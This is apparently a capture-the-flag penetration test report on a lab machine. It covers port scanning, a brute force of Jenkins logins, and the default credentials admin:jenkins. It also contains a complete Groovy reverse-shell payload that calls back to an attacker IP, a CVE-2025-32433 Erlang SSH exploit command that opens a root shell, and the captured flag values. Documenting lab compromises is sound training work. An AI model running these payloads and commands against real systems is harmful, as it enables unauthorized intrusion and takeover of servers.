# Jenkpot - Penetration Test Report

**Machine:** Jenkpot

**Difficulty:** Easy

**IP Address:** 10.15.1.247

**Operating System:** Linux (Ubuntu)

**Date:** 19.02.2026

**Notion link:** [link](https://www.notion.so/Jenkins-30c74f42110180ef8885eac6d4249fcb?source=copy_link)

---

## Executive Summary

This report details the successful compromise of the Jenkpot machine, achieving root access through a combination of weak authentication, remote code execution via Jenkins, and exploitation of a critical SSH vulnerability (CVE-2025-32433). The attack chain demonstrates the dangers of default credentials and unpatched services.

---

## Enumeration

### Nmap

### Full Port Scan

```bash
sudo nmap -T4 -sV -sS -O -p- 10.15.1.247
```



---

| PORT | STATE | SERVICE |
| --- | --- | --- |
| 80/tcp | open | http |
| 8080/tcp | open | http |
| 22/tcp | open | ssh |

## Web Application Analysis

### Port 80 - Apache Web Server

The website presents a corporate landing page for "TechVision - Digital Agency" with contact forms and service information.



### Directory Enumeration

```bash
feroxbuster -u http://10.15.1.247 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -C 403,404
```

**Findings:** No significant directories or files discovered. The contact form was found to be entirely client-side JavaScript with no backend processing.

### Port 8080 - Jenkins 2.504.2

Jenkins automation server identified, running version 2.504.2 on Jetty 12.0.19.



### Technology Stack

```bash
whatweb http://10.15.1.247:8080
```

**Results:**

- Jenkins 2.504.2
- Jetty 12.0.19
- HTTPOnly session cookies
- X-Jenkins headers present



---

## Initial Access

### Vulnerability: Weak Jenkins Credentials

**Severity:** Critical

**CVSSv3:** 9.8

### Exploitation

Attempted authentication brute force using Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.15.1.247 -s 8080 \
http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:loginError" -t 10
```

### Tried default Credentials
- Username: **admin**
- Password: **jenkins**



## Remote Code Execution via Groovy Script Console

With authenticated access to Jenkins, the Script Console was accessible at:

```bash
http://10.15.1.247:8080/script
```



### Reverse Shell Payload

**Attacker Machine:**

```bash
nc -lvnp 4444
```

**Groovy Payload (Script Console):**

groovy

```bash
String host="10.8.0.163";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();po.flush();Thread.sleep(50);
    try{p.exitValue();break;}catch(Exception e){}
};
p.destroy();s.close();
```



### Shell Stabilization

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Access Obtained:**

- User: `jenkins`
- Shell: `/bin/bash`
- Working Directory: `/var/lib/jenkins`



---

## Privilege Escalation

### Enumeration

### System Information

bash

```bash
uname -a
# Linux jenkpot 6.17.2-1-pve #1 SMP PREEMPT_DYNAMIC PMX 6.17.2-1 (2025-10-21T11:55Z) x86_64 x86_64 x86_64 GNU/Linux

id
# uid=999(jenkins) gid=999(jenkins) groups=999(jenkins)

ip a
# eth0@if833:10.15.1.247/23
ss -tlnp
127.0.0.1:2222
```



Vulnerability: CVE-2025-32433 (Erlang OTP SSH RCE)

**Severity:** Critical

**CVSSv3:** 9.8

**Description:** Remote code execution in Erlang/OTP SSH daemon allowing unauthenticated attackers to execute arbitrary code.

## Exploitation

**PoC Discovery:**

cloned github repo https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC



**Attacker Machine (Second Listener):**

```bash
nc -lvnp 1234
```

**Exploit Execution:**

```bash
cd /CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC
python3 cve-2025-32433.py 127.0.0.1 -p 2222 --shell --lhost 10.8.0.163 --lport 1234
```



### Root Access Obtained

```bash
nc -lvnp 1234
# Connection from 10.15.1.247

id
# uid=0(root) gid=0(root) groups=0(root)

hostname
# jenkpot
```



---

## Post-Exploitation

### Flags

```bash
cat /home/taylor.w/user.txt
# a766ec83a3400947aaa992166890452c

cat /root/root.txt
# 8fc6105c911834ba1c1322cf10745a2a
```





## Persistence

### Not established (out of scope for CTF environment).

Findings Summary

|            Vulnerability         | Severity | CVSS|               Impact                   |
|----------------------------------|----------|-----|----------------------------------------|
| Weak Jenkins Credentials         | Critical | 9.8 |  Complete system compromise            |
| Jenkins Script Console RCE       | Critical | 9.0 |  Remote code execution as jenkins user |
| CVE-2025-32433 Erlang SSH RCE    | Critical | 9.8 |  Privilege escalation to root          |`

Attack Chain Visualization

1. Reconnaissance (Nmap) → Identified Jenkins on port 8080
                            ↓
2. Brute Force Attack → Weak credentials discovered (admin:jenkins)
                            ↓
3. Jenkins Access → Authenticated to Jenkins web interface
                            ↓
4. RCE via Script Console → Groovy payload executed
                            ↓
5. Reverse Shell → Shell as 'jenkins' user established
                            ↓
6. Local Enumeration → Discovered Erlang SSH on port 2222
                            ↓
7. CVE-2025-32433 Exploit → Exploited SSH vulnerability
                            ↓
8. ROOT ACCESS → Complete system compromise
